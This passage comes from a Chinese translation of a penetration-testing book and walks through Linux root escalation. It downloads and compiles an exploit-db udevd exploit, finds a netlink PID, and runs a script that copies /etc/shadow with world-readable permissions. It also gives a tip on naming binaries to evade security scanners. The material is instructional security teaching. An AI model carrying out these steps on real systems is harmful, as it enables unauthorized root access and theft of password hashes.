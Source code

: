 现在您可以从网站下载 exploit 并将其传输到系统，或者我们可以通过命令行作弊并完成它。只需运行以下命令：

```py
wget http://www.exploit-db.com/download/8572 -O escalate.c

```

这将下载 exploit 并将其保存为`code`，以便在本地主机上编译和执行。

![获得系统的 root 访问权限](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/lrn-pentest-py/img/B04315_05_16.jpg)

我们需要找到`gcc`编译器，并验证它是否在我们的路径中，以便轻松执行，然后在目标系统上编译代码。可以按照以下步骤完成，使用`gcc`和以下命令将代码编译为 exploit：`gcc escalate.c -o escalate`。这将输出名为`escalate`的新可执行二进制文件。

### 提示

在真实系统上执行时，不要将文件命名为`exploit`、`escalate`、`shell`、`pwned`或类似的名称。这些是许多安全工具扫描的常见名称，因此它们在执行之前可能会被标记。对于本例来说，这并不重要。

现在编译的 exploit 被称为`escalate`，一旦我们确定了一些其他信息组件，就可以运行。这个 exploit 利用了 udevd netlink 套接字进程，因此我们需要识别该进程并将 exploit 传递给**进程标识符**（**PID**）。这可以在引用服务`/proc/net/netlink`的文件中找到。您可以通过执行以下命令来识别详细信息：`cat /proc/net/netlink`。

![获得系统的 root 访问权限](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/lrn-pentest-py/img/B04315_05_17.jpg)

### 注意

请记住，您的 PID 可能会有所不同。

这个 exploit 特别执行一个包含命令的脚本，写入文件`/tmp/run`。因此，让我们将`/etc/shadow`文件复制到`/tmp`，因为我们首先要访问的就是这些数据。我们还需要验证复制的文件是否与原始文件相同；我们可以通过对每个文件进行**消息摘要 5**（**MD5**）并将结果放入`/tmp`中的另一个文件`hashes`来轻松地完成这一点。在`/tmp`中创建一个名为 run 的文件，并添加以下内容：

```py
#!/bin/bash
cp /etc/shadow /tmp/shadow
chmod 777 /tmp/shadow
md5sum /tmp/shadow > /tmp/hashes
md5sum /etc/shadow >> /tmp/hashes

```

然后，使用特定进程的参数运行漏洞利用。下图显示了`gcc`编译器的识别、漏洞利用的编译、执行和结果的证明：

![获取系统的 root 访问权限](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/lrn-pentest-py/img/B04315_05_18.jpg)

### 注意

可以直接卸载文件，而不是移动和复制它，但通常情况下，你不会将系统的用户名和密码写入被利用的盒子上的文件，因为你永远不知道谁已经在上面。此外，这个例子是设计为简单的端口重定向工具，如`netcat`可能不在系统上。

然后，通过比较两个文件的 MD5 哈希值，并将其写入`/tmp/hashes`文件，验证复制文件的内容与`/etc/shadow`文件相同。然后可以将新复制的文件从系统上复制到攻击盒上。

### 提示

在真实环境中一定要非常谨慎，当你复制`passwd`或 shadow 文件时，可能会破坏目标系统。因此，请确保不要删除、重命名或移动原始文件。如果在目标系统的其他位置复制了文件，请删除它，以免帮助真正的攻击者。
